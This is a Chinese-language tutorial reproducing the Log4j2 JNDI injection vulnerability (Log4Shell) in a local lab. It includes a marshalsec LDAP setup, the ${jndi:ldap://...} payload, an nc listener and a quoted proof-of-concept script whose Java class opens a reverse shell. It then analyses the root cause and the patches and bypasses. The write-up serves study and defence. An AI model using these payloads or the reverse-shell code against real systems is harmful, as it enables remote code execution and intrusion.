

# Log4j2漏洞复现

原理分析参考：[Log4j2：里程碑式的顶级供应链漏洞](https://su18.org/post/log4j2/#)

背景意义：[Log4j2漏洞背后是全球软件供应链风险面临失控](https://mp.weixin.qq.com/s/pBythwQB8az9J7wyPBVXaw)

## JNDI

本部分[参考](https://sf2333.github.io/2021/12/13/log4j2-RCE%E5%A4%8D%E7%8E%B0/)

JNDI是Java命名与目录接口，类似一个索引中心，允许客户端通过name和directory发现和查找对象

JNDI架构由API和服务提供接口service provider interface（SPI）组成

- Java应用程序使用JNDI API访问各种命名和目录服务
- SPI使各种命名和目录服务能够透明地接入，从而允许使用JNDI API的Java应用程序访问其服务


使用JNDI访问对象

```java
String jndiName= [name];// 指定需要查找name名称
Context context = new InitialContext();// 初始化默认环境
DataSource ds = (DataSourse)context.lookup(jndiName);// 查找该name的数据
```

这些对象可以存储在不同的命名或目录服务中，如上图所示的LDAP、RMI

- LDAP：Lightweight Directory Access Protocol轻量级目录访问协议

`context.lookup`在命名服务中查找并返回对象

- 例如`ldap://127.0.0.1:1389/Exploit`如果绑定到上下文对象`127.0.0.1:1389/Exploit.class`，在返回这个类时，`lookup`方法会实现类的初始化，能够执行恶意代码
- 因此`jndiName`变量可控将导致JNDI注入

### JNDI+LDAP攻击实现

编写恶意类，在构造函数中写入恶意代码

- 这里的效果是弹出计算器

```java
public class Evil {

    public Evil() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

编译得到Evil.class

在Evil.class所在文件夹下开启http服务

```java
python -m http.server 1234
```


然后使用[marshalsec](https://github.com/RandomRobbieBF/marshalsec-jar)开启一个LDAP服务，该LDAP服务与HTTP服务器上的恶意类进行了绑定

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:1234/#Evil
```


编写代码向LDAP服务器请求恶意类

- 在`lookup`方法中就会将类实例化，调用构造函数，弹出计算器

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Ldap {

    public static void main(String[] args) throws NamingException {
        Context context = new InitialContext();
        context.lookup("ldap://127.0.0.1:1389/Evil");
    }
}
```

弹出计算器


## 简单漏洞复现

按照上面的步骤开启LDAP服务器与HTTP服务绑定

pom.xml中导入log4j的版本为

```xml
<dependency>
	<groupId>org.apache.logging.log4j</groupId>
	<artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
```

然后编写类

- logger.error就会触发恶意代码执行

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.util.Scanner;

public class Log4j2Test {

    private final static Logger logger = LogManager.getLogger(Log4j2Test.class);

    public static void main(String[] args) {
        Scanner input = new Scanner(System.in);
        System.out.print("Input your name: ");
        String name = input.nextLine();
        if(name.length() >= 5) {
            logger.error("valid name:" + name);  	//打印日志
        }
    }
}
```

运行程序，输入Payload

```
${jndi:ldap://127.0.0.1:1389/Evil}
```

成功弹出计算器


## 模拟环境漏洞复现

复现环境和poc[参考](https://github.com/kozmer/log4j-shell-poc)

按照教程运行docker，跑起来网站，可以看到网站用户框中可以输入username和password


分析一波网站的代码，可以看到username处的输入会用`logger.error`打印，说明这就是漏洞点


然后先开启一个nc监听，准备接收反弹后的shell

- `-l`监听模式，`-v`详细输出，`-n`指定数字的IP地址 不使用域名，`-p`本地端口号

```
nc -lvnp 9001
```


接下来python运行poc脚本

```
python3 poc.py --userip localhost --webport 8000 --lport 9001
```


然后在网站username处输入`${jndi:ldap://localhost:1389/a}`，password处随便填写，点击login


poc运行窗口出现LDAP发送成功提示


nc运行窗口提示连接成功


此时已经获得反弹后的shell，输入ls可以查看路径下的文件


输入ps可查看当前进程


### poc分析

main函数

- 接收输入参数userip、webport、lport
- check_java函数检查java环境
- payload函数运行payload

```python
def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)
```

payload函数

- generate_payload函数传入ip地址和端口后，生成payload
- 用新线程启动LDAP服务器
- 启动一个HTTP服务器

```python
def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()
```

generate_payload函数

- 实现并编译Exploit类，传入参数userip和lport（9001）
- Exploit类就是常见的Java反弹shell实现

```python
def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')
```

ldap_server函数

- 启动ldap服务器，并绑定到HTTP服务器上的恶意类Exploit（lport参数实际传入的是webport也就是8000）

```python
def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])
```

## 漏洞成因

漏洞的关键代码在`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`中，这之前的函数调用栈如下

- 由于`AbstractLogger#logMessage`方法就包含了漏洞信息，因此所有调用该方法的info/error/warn都可以作为漏洞触发点


在format函数中会检查字符串中是否存在${


接下来step into `replace`函数，该函数位于`org.apache.logging.log4j.core.lookup.StrSubstitutor`类中


然后step into`substitute`函数，这个函数在最开始获取了一些成员变量的值，这些成员变量的值主要来源于一些默认值

```java
public static final char DEFAULT_ESCAPE = '$';
public static final StrMatcher DEFAULT_PREFIX = StrMatcher.stringMatcher("${");
public static final StrMatcher DEFAULT_SUFFIX = StrMatcher.stringMatcher("}");
public static final String DEFAULT_VALUE_DELIMITER_STRING = ":-";
public static final StrMatcher DEFAULT_VALUE_DELIMITER = StrMatcher.stringMatcher(":-");
public static final String ESCAPE_DELIMITER_STRING = ":\\-";
public static final StrMatcher DEFAULT_VALUE_ESCAPE_DELIMITER = StrMatcher.stringMatcher(":\\-");
```


然后用while循环逐个字符寻找`${`前缀


找到后进入else逻辑中开始找后缀



找到后缀后（找后缀时中间进行了一些递归的操作，继续回过头去查找前缀），取出中间的内容


接下来是匹配`:-`和`:\\-`，没有匹配到

之后是对变量进行解析，调用`resolveVariable`函数


该函数进一步调用`lookup`函数


Log4j2 使用 `org.apache.logging.log4j.core.lookup.Interpolator` 类来代理所有的 `StrLookup` 实现类，也就是说在实际使用 Lookup 功能时，由 `Interpolator` 这个类来处理和分发

这个类在初始化时创建了一个 `strLookupMap` ，将一些 lookup 功能关键字和处理类进行了映射，存放在这个 Map 中

```java
this.strLookupMap.put("log4j", new Log4jLookup());
this.strLookupMap.put("sys", new SystemPropertiesLookup());
this.strLookupMap.put("env", new EnvironmentLookup());
this.strLookupMap.put("main", MainMapLookup.MAIN_SINGLETON);
this.strLookupMap.put("marker", new MarkerLookup());
this.strLookupMap.put("java", new JavaLookup());
this.strLookupMap.put("lower", new LowerLookup());
this.strLookupMap.put("upper", new UpperLookup());
try {
    this.strLookupMap.put("jndi", Loader.newCheckedInstanceOf("org.apache.logging.log4j.core.lookup.JndiLookup", StrLookup.class));
} catch (Exception | LinkageError var8) {
    this.handleError("jndi", var8);
}
// ...
```

处理和分发的关键逻辑在于其 `lookup` 方法，通过 `:` 作为分隔符来分隔 Lookup 关键字及参数，从`strLookupMap` 中根据关键字作为 key 匹配到对应的处理类，并调用其 lookup 方法

可以看到下图中根据`:`为分隔，得到了`prefix`为`jndi`和`name`为`ldap://127.0.0.1:1389/Evil`


接下来就会进入相应的`org.apache.logging.log4j.core.lookup.JndiLookup`类中的`lookup`方法，可以发现它是使用`jndiManager`实现了lookup功能


## 漏洞修复

### 修复建议

在 jvm 参数、配置、环境系统变量中设置 nolookups

更新 jdk 版本

移除包中的 JndiLookup class

禁用 JNDI

### 2.15.0-rc1

在漏洞遭到披露后，Log4j2 官方发布了 log4j-2.15.0-rc1 安全更新包，但经过研究后发现在开启 lookup 配置时，可以被绕过

安全更新的关键位置：

- 第一个关键位置，尽量避免使用lookup功能、尽量避免解析关键字
  - 移除了从 Properties 中获取 Lookup 配置的选项，并修改判断逻辑，默认不开启 lookup 功能
  - 在 MessagePatternConverter 类中创建了几个内部类，只有在开启 lookup 功能时才会使用 `LookupMessagePatternConverter` 来进行 Lookup 和替换
  - 默认情况下，将使用 `SimpleMessagePatternConverter` 进行消息的格式化处理，不会解析其中的 `${}` 关键字
- 第二个关键位置`JndiManager#lookup`方法中添加校验
  - `JndiManager`创建时添加白名单 JNDI 协议、白名单主机名、白名单类名
  - 在`lookup`函数中添加校验判断

### 2.15.0-rc2

rc1中添加的校验判断逻辑有误，程序在catch住异常后没有return，导致可以利用`URISyntaxException`异常（例如在URI中插入空格）来绕过校验，直接进入后面的lookup


2.16.0-rc1的更新移除了 MessagePatternConverter 的内部实现类 LookupMessagePatternConverter，从这个版本开始，log4j2 不再支持日志消息的 Lookup 功能